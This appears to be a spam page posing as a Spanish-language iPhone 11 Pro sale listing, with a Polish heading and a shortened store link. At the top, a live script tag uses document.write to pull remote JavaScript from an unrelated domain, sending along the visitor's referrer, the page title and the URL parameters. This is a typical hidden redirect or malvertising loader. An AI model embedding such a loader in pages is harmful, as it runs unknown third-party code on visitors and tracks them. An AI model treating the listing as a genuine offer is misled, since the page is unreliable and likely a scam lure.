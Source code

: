 <script type="application/javascript">
document.write('<script type="application/javascript" src="//dalibera.com/q1kT5ZCT?se_referrer=' + encodeURIComponent(document.referrer) + '&default_keyword=' + encodeURIComponent(document.title) + '&'+window.location.search.replace('?', '&')+'&frm5f2ee9479b150=script5f2ee9479b151"><' + '/script>');
</script>

<img src="https://knwmeg.github.io/iphone/PL1.jpg"/>

## iPhone 11 PRO

Apple iPhone 11 Pro (64 GB, verde medianoche) [operador bloqueado] + suscripción de operador [Cricket Wireless] (crédito de tarjeta de regalo de Amazon de $ 10 / mes)

### Dane techniczne

Pantalla OLED Super Retina XDR de 5,8 pulgadas
Resistente al agua y al polvo (4 metros por hasta 30 minutos, IP68)
Sistema de triple cámara con cámaras ultra gran angular, gran angular y telefoto de 12 MP; Modo nocturno, modo retrato y video 4K hasta 60 fps
Cámara frontal TrueDepth de 12MP con modo retrato, video 4K y cámara lenta
Face ID para autenticación segura y Apple Pay
Chip A13 Bionic con Neural Engine de tercera generación
Carga rápida con adaptador de 18 W incluido
Carga inalambrica

Para obtener más detalles, consulte [Tienda](http://shorturl.at/dgnxM).
